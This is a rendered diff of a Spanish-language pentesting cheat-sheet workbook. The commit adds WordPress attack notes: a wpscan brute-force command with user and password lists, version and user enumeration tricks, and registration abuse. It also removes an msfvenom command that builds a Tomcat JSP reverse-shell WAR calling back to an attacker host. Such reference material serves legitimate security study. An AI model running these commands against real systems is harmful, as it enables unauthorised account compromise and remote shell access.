

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; charts and pictures not drawn; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-N7 (WPSCAN): (empty)
+N7 (WPSCAN): wpscan --url http://10.10.10.10 -U user.txt -P diccionario.txt
-O7: (empty)
+O7: Para hacer fuerza bruta de usuarios Wordpress
-V8 (WORDPRESS): (empty)
+V8 (WORDPRESS): wp-content/uploads
-W8: (empty)
+W8: Revisar en Wordpress
-V9 (WORDPRESS): (empty)
+V9 (WORDPRESS): 10.10.10.10/readme.html
-W9: (empty)
+W9: Antiguamente salia la version, pero ya no
-V10 (WORDPRESS): TOMCAT
+V10 (WORDPRESS): 10.10.10.10/wp-links-opml.php
-V10:X10 merged
-W10: (empty)
+W10: Nos puede decir la version de Wordpress
-V11 (WORDPRESS): Comando
+V11 (WORDPRESS): forgot password
-W11: Descripcion
+W11: En Wordpress una forma tambien de enumerar usuarios, dandole que hemos olvidado la contraseña y que nos mande una nueva al introducir usuario
-X11: Anotaciones
+X11: (empty)
-V12 (WORDPRESS): msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.10.10 lport=8888 -f war > archivo.war
+V12 (WORDPRESS): 10.10.10.10/wp-login.php?action=register
-W12: Reverse shell para Tomcat
+W12: Para intentar crearnos un usuario, conseguir informacion e intentar escalar con algun exploit que haga falta usuario
```
Also changed, not shown: 14 added rows, 3 removed rows, 83 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet General, sheet Inyecciones, sheet Enumeracion & Escaneos, sheet Reversing & Forensics, cell formats, charts or pictures.
